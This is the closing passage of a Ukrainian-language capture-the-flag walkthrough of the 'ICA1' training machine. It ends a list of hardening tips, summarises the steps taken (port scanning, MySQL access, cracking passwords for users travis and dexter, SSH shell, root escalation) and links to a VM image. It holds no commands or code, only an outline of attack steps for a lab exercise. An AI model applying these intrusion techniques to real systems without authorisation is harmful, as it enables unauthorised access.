5. Впроваджуйте належне ведення логів та моніторинг:
   - Увімкніть комплексне ведення логів та моніторинг всієї системи.
   - Виявляйте підозрілі дії, наприклад, несанкціонований доступ до файлів або спроби ескалації привілеїв.

---

## **Висновок**
- У цьому покроковому посібнику ми успішно отримали повний доступ до цільової машинои **ICA1**, досліджуючи різні вразливості та методи експлуатації.
- Ми розглянули ключові завдання, такі як виявлення та використання слабких місць у системі, використання методів ескалації привілеїв та досягнення повної компрометації.
- Ця вправа підкреслює важливість захисту конфіденційних файлів, забезпечення суворої політики паролів та регулярного аудиту конфігурацій системи для запобігання несанкціонованого втручання у систему.
- Виконуючи описані кроки, ви тепер маєте чітко розуміти, як вирішувати подібні проблеми, а також застосовувати інструменти та методи, що використовуються в цьому процесі.
- Цей досвід не лише зміцнить ваші навички тестування на проникнення, але й підготує вас до складніших сценаріїв.
- Дотримуючись вказаних рекомендацій, можна значно зменшити ризик використання описаних вразливостей у реальних середовищах.

**Що було зроблено?**  
✔️ Визначено IP-адресу цільової машини.<br>
✔️ Проскановано порти та сервіси.<br>
✔️ Досліджено **HTTP-сервіси**.<br>
✔️ Отримано доступ до сервера ```MySQL```.<br>
✔️ Досліджені облікові записи web користувачів.<br>
✔️ Налаштовано файл зі списком ключових слів.<br>
✔️ Розглянуті методи аналізу хеш кодів.<br>
✔️ Підібрані паролів користувачів travis і dexter.<br>
✔️ Отримано **shell-доступ** через протокол ```SSH```.<br>
✔️ Досліджені облікові записи користувачів travis і dexter.<br>
✔️ Знайдений шлях для підвищення привілеїв.<br>
✔️ Отримано **root-доступу** до цільової системи.<br>

🔹 **Цей CTF був прикладом навчального завдання** для відпрацювання навичок **етичного хакінгу** та тестування на проникнення.
## Завантажити модифікований образ віртуальної машини можна [тут](https://drive.google.com/file/d/1XXP6SCyoIHUUug2nJEjMFej9QBegS7BO/view?usp=sharing).
